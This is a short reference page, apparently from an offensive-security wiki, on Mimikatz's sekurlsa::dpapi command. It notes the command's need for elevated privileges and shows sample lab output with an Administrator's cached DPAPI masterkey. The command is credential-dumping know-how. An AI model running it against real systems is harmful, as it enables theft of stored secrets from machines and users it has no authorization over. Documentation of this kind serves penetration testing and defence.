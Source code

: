 # dpapi

`sekurlsa::dpapi` lists DPAPI cached masterkeys (cf. [dumping DPAPI secrets](https://www.thehacker.recipes/ad-ds/movement/credentials/dumping/dpapi-protected-secrets)).

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::dpapi

Authentication Id : 0 ; 227854 (00000000:00037a0e)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : hacklab
Logon Server      : DC
Logon Time        : 10/17/2021 4:19:23 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-500
         [00000000]
         * GUID      :  {0686f7cf-76f3-413b-a51e-28d0d0531013}
         * Time      :  10/17/2021 4:21:59 AM
         * MasterKey :  6b5b148b9244efab617e417936227286c24d340cfb9900cc632dcf1d10fd258d16337df2e090251851dec676d9d525b1fc5bd99c9383084fd0e9f4d0c45a3b0e
         * sha1(key) :  c5049248822679fdb3e60ba37531ae3e805f7122
```
